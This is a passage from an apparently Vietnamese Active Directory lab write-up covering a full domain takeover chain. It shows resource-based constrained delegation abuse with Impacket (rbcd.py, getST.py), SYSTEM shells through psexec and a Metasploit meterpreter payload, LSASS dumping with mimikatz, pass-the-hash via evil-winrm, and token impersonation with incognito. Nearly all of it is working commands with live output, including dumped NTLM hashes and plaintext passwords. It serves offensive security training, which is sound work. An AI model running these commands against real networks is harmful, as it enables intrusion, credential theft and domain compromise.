	- KCD: Máy chủ Web nói: "Ê DC, tôi muốn được phép nói chuyện với máy chủ DB nhân danh người dùng." (Cấu hình trên Web)
    - RBCD: Máy chủ DB nói: "Ê DC, tôi cho phép máy chủ Web nói chuyện với tôi nhân danh người dùng." (Cấu hình trên DB)

- Quay trở lại bài lab, tài khoản `service_admin` có khả năng chỉnh sửa thuộc tính `msDS-AllowedToActOnBehalfOfOtherIdentity` của một đối tượng khác, ta có thể abuse để điền vào thuộc tính đó, từ đó cấu hình đối tượng đó cho RBCD.

- Tiếp theo ta sẽ thực hiện xác thực với DC dưới quyền `admin_service` và sửa đổi thuộc tính `msDS-AllowedToActOnBehalfOfOtherIdentity` của object `WS01$` để thêm SID của `admin_service`. Điều này cho phép `admin_service` có đặc quyền mạo danh một người dùng khác khi truy cập vào máy tính `WS01`. Nói cách khác, ta sẽ truy cập được vào `WS01` với danh nghĩa `Administrator`

```bash
❯ rbcd.py 'vdt.local/admin_service:RBCDmasterP@ss1!' -action write -delegate-from 'admin_service' -delegate-to 'WS01$' -dc-ip 10.0.0.10
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] admin_service can now impersonate users on WS01$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     admin_service   (S-1-5-21-300591061-149275173-2848870365-1106)
```

## S4U abuse
Get impersonation service ticket
```bash
❯ getST.py -spn cifs/ws01.vdt.local -impersonate Administrator 'vdt.local/admin_service:RBCDmasterP@ss1!' -dc-ip 10.0.0.10     
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_ws01.vdt.local@VDT.LOCAL.ccache
```
Explaination: `getST.py` using `admin_service` to request KDC (through S4U2self and S4U2proxy) provide a Service Ticket (ST/TGS) for `cifs/ws01.vdt.local` under `Adminisrtator`. This ticket is going to be save into file `Administrator@cifs_ws01.vdt.local@VDT.LOCAL.ccache`

Cleanup, reset delegationi after request ticket successfully
```bash
❯ rbcd.py 'vdt.local/admin_service:RBCDmasterP@ss1!' -action remove -delegate-from 'admin_service' -delegate-to 'WS01$' -dc-ip 10.0.0.10
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Accounts allowed to act on behalf of other identity:
[*]     admin_service   (S-1-5-21-300591061-149275173-2848870365-1106)
[*] Delegation rights modified successfully!
[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
```

Ngoài ra, nếu như ta có được ticket với user có quyền hạn cao (VD như DCSync) thuộc về tài khoản máy của chính DC, ta có thể dump hash từ DC với công cụ `Impacket-secretsdump.py`. Ta sẽ nói thêm ở phần tiếp theo
## Using Ticket to privilege to `System` in `WS01`
### Remote access using `psexec`
Cuối cùng, sử dụng ticket ta đã có được shell với đặc quyền `system` trong `WS01`.
```bash
❯ export KRB5CCNAME=Administrator@cifs_ws01.vdt.local@VDT.LOCAL.ccache && psexec.py -k -no-pass ws01.vdt.local 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on ws01.vdt.local.....
[*] Found writable share ADMIN$
[*] Uploading file gzSEquHs.exe
[*] Opening SVCManager on ws01.vdt.local.....
[*] Creating service MJij on ws01.vdt.local.....
[*] Starting service MJij.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> cd ../../Users/Administrator/Desktop

C:\Users\Administrator\Desktop> di   
'di' is not recognized as an internal or external command,
operable program or batch file.

C:\Users\Administrator\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is EA41-1D79

 Directory of C:\Users\Administrator\Desktop

05/29/2025  02:48 PM    <DIR>          .
05/29/2025  02:48 PM    <DIR>          ..
05/29/2025  02:48 PM                32 root_ws01.txt
               1 File(s)             32 bytes
               2 Dir(s)  49,752,866,816 bytes free

C:\Users\Administrator\Desktop> type root_ws01.txt
Flag for privesc to root on WS01
C:\Users\Administrator\Desktop> 
```

### Remote access using `metasploit`
Open `metasploit`
```bash
❯ msfconsole 

msf6 > 
```

Load module `psexec`, setup payload and local host parameter:
```bash
msf6 > use windows/smb/psexec
msf6 exploit(windows/smb/psexec) > 
msf6 exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf6 exploit(windows/smb/psexec) > set lhost 172.21.159.255
lhost => 172.21.159.255
```

Setup a `meterpreter` shell session with host:
```bash
msf6 exploit(windows/smb/psexec) > run rhost=ws01.vdt.local username=Administrator password=password smb::auth=kerberos domaincontrollerrhost=10.0.0.6 smb::rhostname=ws01.vdt.local domain=vdt.local smb::Krb5Ccname=/home/pumpkin/Desktop/Administrator@cifs_ws01.vdt.local@VDT.LOCAL.ccache
[*] 10.0.0.6:445 - Connecting to the server...
[*] 10.0.0.6:445 - Authenticating to 10.0.0.6:445|vdt.local as user 'Administrator'...
[*] 10.0.0.6:445 - Loaded a credential from ticket file: /home/pumpkin/Desktop/Viettel/VDT_2025/AD/Administrator@cifs_ws01.vdt.local@VDT.LOCAL.ccache
[*] 10.0.0.6:445 - Selecting PowerShell target
[*] 10.0.0.6:445 - Executing the payload...
[+] 10.0.0.6:445 - Service start timed out, OK if running a command or non-service executable...
[*] Started bind TCP handler against 10.0.0.6:4444
[*] Sending stage (203846 bytes) to 10.0.0.6
[*] Meterpreter session 1 opened (10.255.255.254:41925 -> 10.0.0.6:4444) at 2025-06-13 16:59:34 +0700

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```

# Take over Domain Controller
## Credential dumping
### `LSASS.exe`
#### `mimikatz`
- `LSASS.exe` là một tiến trình quan trọng trong Window, nó lưu trữ các thông tin xác thực của người dùng đã đăng nhập (VD: NTLM hash, Kerberos và đôi khi cả mật khẩu dạng plaintext nếu cấu hình cho phép như `WDigest`)
- Ta sẽ tiến hành dump `LSASS.exe` bằng công cụ `mimikatz` (đây là công cụ tích hợp nhiều chức năng cho phép dump các thông tin quan trọng như mật khẩu ở trong bộ nhớ, NTLM hash, Kerberos ticket, ...) 
- Sử dụng `mimikatz` với module `sekurlsa::logonpasswords` để trích xuất tất cả các thông tin đăng nhập (hash, vé, mật khẩu cleartext nếu có) của tất cả người dùng đang đăng nhập hoặc đã đăng nhập gần đây từ bộ nhớ LSASS. 
```bash
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit > C:\Windows\Temp\lsass.txt 
type C:\Windows\Temp\lsass.txt
  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # sekurlsa::logonpasswords

Authentication Id : 0 ; 4079842 (00000000:003e40e2)
Session           : Interactive from 1
User Name         : Administrator
Domain            : VDT
Logon Server      : DC01
Logon Time        : 6/13/2025 5:06:53 PM
SID               : S-1-5-21-300591061-149275173-2848870365-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : VDT
         * LM       : 49d58563113416eb9c5014ae4718a7ee
         * NTLM     : 41291269bf30dc4c9270a8b888e3bbe9
         * SHA1     : 556ece6a5d0e5d231e09e553a49dbf94afb523ea
        tspkg :
         * Username : Administrator
         * Domain   : VDT
         * Password : Abc12345
        wdigest :
         * Username : Administrator
         * Domain   : VDT
         * Password : Abc12345
        kerberos :
         * Username : Administrator
         * Domain   : VDT.LOCAL
         * Password : Abc12345
        ssp :
        credman :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 6/13/2025 9:25:10 AM
SID               : S-1-5-19
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : WS01$
Domain            : VDT
Logon Server      : (null)
Logon Time        : 6/13/2025 9:25:10 AM
SID               : S-1-5-20
        msv :
         [00000003] Primary
         * Username : WS01$
         * Domain   : VDT
         * NTLM     : 1e5a9503e3a17e719f4474161188c7c0
         * SHA1     : 296ef28b6c359cd6bf44cb307f85a3a7444cf485
        tspkg :
        wdigest :
         * Username : WS01$
         * Domain   : VDT
         * Password : E/2m 1Qj^nYFugZ-w]L3KB5T#/7g*ed^aDuQC);q]f;DeN^(&)&qnRFJ!S4qUG_W;ZZ2Y:[ZZ7"!aR<+t)lJPdn6e:28t%I.NCz-E=M 3LLui)ak<-d;)zh6
        kerberos :
         * Username : ws01$
         * Domain   : VDT.LOCAL
         * Password : E/2m 1Qj^nYFugZ-w]L3KB5T#/7g*ed^aDuQC);q]f;DeN^(&)&qnRFJ!S4qUG_W;ZZ2Y:[ZZ7"!aR<+t)lJPdn6e:28t%I.NCz-E=M 3LLui)ak<-d;)zh6
        ssp :
        credman :

Authentication Id : 0 ; 50010 (00000000:0000c35a)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 6/13/2025 9:25:10 AM
SID               : 
        msv :
         [00000003] Primary
         * Username : WS01$
         * Domain   : VDT
         * NTLM     : 1e5a9503e3a17e719f4474161188c7c0
         * SHA1     : 296ef28b6c359cd6bf44cb307f85a3a7444cf485
        tspkg :
        wdigest :
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : WS01$
Domain            : VDT
Logon Server      : (null)
Logon Time        : 6/13/2025 9:25:10 AM
SID               : S-1-5-18
        msv :
        tspkg :
        wdigest :
         * Username : WS01$
         * Domain   : VDT
         * Password : E/2m 1Qj^nYFugZ-w]L3KB5T#/7g*ed^aDuQC);q]f;DeN^(&)&qnRFJ!S4qUG_W;ZZ2Y:[ZZ7"!aR<+t)lJPdn6e:28t%I.NCz-E=M 3LLui)ak<-d;)zh6
        kerberos :
         * Username : ws01$
         * Domain   : VDT.LOCAL
         * Password : E/2m 1Qj^nYFugZ-w]L3KB5T#/7g*ed^aDuQC);q]f;DeN^(&)&qnRFJ!S4qUG_W;ZZ2Y:[ZZ7"!aR<+t)lJPdn6e:28t%I.NCz-E=M 3LLui)ak<-d;)zh6
        ssp :
        credman :

mimikatz(commandline) # exit
Bye!

```
Với kết quả sau khi dump ra, ta có thể thấy được NTLM hash của Domain Admins Administrator. AD mặc định vẫn sẽ chấp nhận xác thực bằng giao thức NTLM (kể cả domain admins) để hỗ trợ các thiết bị legacy chỉ support giao thức NTLM. Điều này tạo nên rủi ro rất lớn nếu kẻ tấn công có thể dump ra được NTLM hash trên máy của ông quản trị viên nào đó được đăng nhập tài khoản domain admins. 

Ta sẽ tiến hành tấn công pass the hash sử dụng NTLM hash của Administrator
```bash
❯ evil-winrm -i vdt.local -u Administrator -H 41291269bf30dc4c9270a8b888e3bbe9 
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\administrator\Documents> cd ../Desktop/
*Evil-WinRM* PS C:\Users\administrator\Desktop> dir


    Directory: C:\Users\administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/13/2025   5:10 PM             27 root.txt


*Evil-WinRM* PS C:\Users\administrator\Desktop> type root.txt
root flag he. he. he. he.
*Evil-WinRM* PS C:\Users\administrator\Desktop> 
```

Ngoài ra, nếu máy bị dump LSASS là một máy chạy hệ điều hành phiên bản cũ, `logon session` có thể còn chứa cả plaintext password như output dưới đây. Vậy là ta đã chiếm được credential là Administrator:Abc12345
```bash
❯ evil-winrm -i vdt.local -u Administrator -p Abc12345 
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\administrator\Desktop> type root.txt
root flag he. he. he. he.
*Evil-WinRM* PS C:\Users\administrator\Desktop> 
```

#### `incognito`
- Ngoài những credential hash được lưu trữ trong logon session thì `LSASS.exe` còn lưu trữ access token, đây là trái tim của cơ chế Single Sign on trong Windows. Chứa thông tin về danh tính và quyền của user tạo ra sau khi user login thành công. Khi user thực thi một chương trình, một bản copy của access token được tạo ra và chương trình sẽ chạy dưới quyền của người đấy
- Cơ chế của `incognito` là dùng Windows API để copy access token và gán vào một process/thread khác. Nếu process/thread đó được tạo bởi một ông Domain Admin, ta sẽ sử dụng công cụ này để steal token còn tồn tại trong tiến trình và có thể leo quyền domain
- Shell `meterpreter` trên `metasploit` có hỗ trợ module `incognito`. Vì thế, ta sẽ thiết lập lại shell `meterpreter` 
- Load module `incognito`. Sau khi ta tìm trong danh sách các token, may mắn là có user VDT\Administrator thuộc Domain Admins. Điều này có thể là do admin này đã đăng nhặp vào `WS01` (có thể là RDP, SMB, ...)
```bash
meterpreter > load incognito
Loading extension incognito...Success.
meterpreter > list_tokens -u

Delegation Tokens Available
========================================
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM
VDT\Administrator

Impersonation Tokens Available
========================================
No tokens available
```

- Thực hiện đánh cắp token và leo lên Domain Admins
```bash
meterpreter > impersonate_token "VDT\\Administrator"
[+] Delegation token available
[+] Successfully impersonated user VDT\Administrator
meterpreter > getuid
Server username: VDT\Administrator
meterpreter > cat \\\\DC01.vdt.local\\C$\\Users\\Administrator\\Desktop\\root.txt
root flag he. he. he. he.
meterpreter > 
```
